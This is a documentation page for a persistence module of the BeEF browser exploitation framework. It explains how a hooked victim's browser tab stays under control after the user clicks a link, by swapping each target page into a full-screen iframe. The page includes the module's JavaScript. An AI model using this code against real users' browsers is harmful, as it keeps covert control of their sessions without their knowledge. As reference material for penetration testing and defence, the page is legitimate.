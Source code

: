 ## Summary

* **Objective**: Persists the hooked page across link clicks
* **Authors**: passbe
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/persistence/iframe_above)

## Internal Working

The idea is hook event listeners onto every link on the page so that when a link is clicked on, it replaces the current page with a 100% by 100% iFrame to the new web page. 

Thus the link on the top bar does NOT change (this user might notice this), but the browser tab is still hooked.

When a link is clicked on once, the new links inside the created iFrame are not replaced. This this module might need to be ran again on the same browser if the same result is to be achieved persistently.

```js
    persistentIframe: function(){
        $j('a').click(function(e) {
            if ($j(this).attr('href') != '')
            {
                e.preventDefault();
                beef.dom.createIframe('fullscreen', {'src':$j(this).attr('href')}, {}, null);
                $j(document).attr('title', $j(this).html());
                document.body.scroll = "no";
                document.documentElement.style.overflow = 'hidden';
            }
        });
    },
```

## Feedback

Sometimes it messes with the look of the redirected page (element sizes might appear larger than usual)

